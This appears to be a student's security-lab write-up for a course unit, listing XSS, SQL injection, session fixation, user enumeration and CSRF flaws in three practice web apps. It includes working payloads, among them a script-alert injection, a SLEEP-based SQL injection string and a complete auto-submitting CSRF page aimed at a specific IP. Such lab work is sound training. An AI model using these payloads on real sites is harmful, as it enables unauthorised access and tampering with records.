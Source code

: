 # Unit-9-Cybersecurity

# Green:

Vulnerability 1: Cross-Site Scripting (XSS)

Go to Contact section and submit a feedback with <script>alert('XSS
ALERT');</script>
Log into admin and once you click the feedback section, it will trigger a popup

Vulnerability 2: Cross-Site Scripting (XSS)

Go to log in page, if you enter the correct username, but inccorect
password, "Log in was unsuccessful" will be bolded
If you enter an invalid username and incorrect password, it wouldn't be bolded.

# Blue:

Vulnerability 1: Session Hijacking/Fixation

In one browser (Chrome), we log in normally but then copy the current
PHPSESSIONID.
Use another browser (Safari in this case) which was NOT logged in and
change the PHPSESSIONID we got from Chrome.
It will show that it was automatically logged into the system in the
Safari without entering the password and username.

Vulnerability 2: SQL Injection

Go to the salesperson tab
Select a random salesperson and add this at the end of the url ' OR
SLEEP(5)=0--'
The current browser will change in 5 seconds

# Red:

Vulnerability 1: User Enumeration

Log in and then go to sales person's page
Click into any salesperson to get their ID and change it to 11 or 12;
these information shouldn't be public to everyone
Log out and go to the public site
Click into any salesperson and change their ID to 11 or 12 and we will
get that information when public user shouldn't supposed to
<img src="red-exploit-1.gif" alt="Challenge 1">
Vulnerability 2: Cross-Site Request Forgery (CSRF)

Create a html page with the code below

<html>
  <head>
    <title>A Totally Blank Page</title>
  </head>
  <body onload="document.CSRF.submit()">
<form action="https://104.198.208.81/red/public/staff/salespeople/edit.php?id=5"
method="post" style="display: none;" name='CSRF' target="res">
    <input type="text" name="first_name" value="HACKED" />
      <input type="text" name="last_name" value="WAS HACKED" />
      <input type="text" name="phone" value="111-111-2222" />
      <input type="text" name="email" value="HACKED@HACKED.com" />
</form>
    <iframe name="res" style="display: none;"></iframe>
  </body>
</html>


User submit a feedback with a url that links to the html page
Admin log into site and visit the attached feedback url
By visiting the page, it will attack and change salesperson with the ID 5's info


